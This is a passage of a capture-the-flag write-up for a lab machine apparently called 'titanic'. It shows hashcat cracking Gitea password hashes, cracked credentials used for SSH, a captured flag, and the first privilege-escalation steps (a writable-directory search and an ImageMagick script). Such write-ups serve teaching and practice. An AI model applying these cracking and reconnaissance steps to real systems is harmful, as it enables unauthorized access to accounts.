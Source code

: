 
Now, our next step would be cracking the hashes:

```
hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --user
```

Once it cracks, we can check them:

```
hashcat gitea.hashes --show --user

developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
jimmy:sha256:50000:SSA8M0fsllcrScqVRxll1Q==:wnOGvOYSpdN8RrPjxlvCSjr25TJMm505WuohBMUEeJEyE8kpqjmC5FpfdJpbQ1ZJ6U0=:12345678
```

We can connect to ssh using the following credentials:

```
developer:25282528
```

Now we are able to get the first flag:

```
developer@titanic:~$ cat user.txt
707b718bb3700b8595aa1723e93622b3
```

Let's start privilege escalation.

# PRIVILEGE ESCALATION
---

We can begin by checking the writable directories:

```bash
find / -writable -type d 2>/dev/null
```

We get this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250225143731.png)

Now, if we check `/opt`, we can find a `/scripts` directory, it contains the following script:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250225143837.png)

```
developer@titanic:/opt/scripts$ cat identify_images.sh

cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```
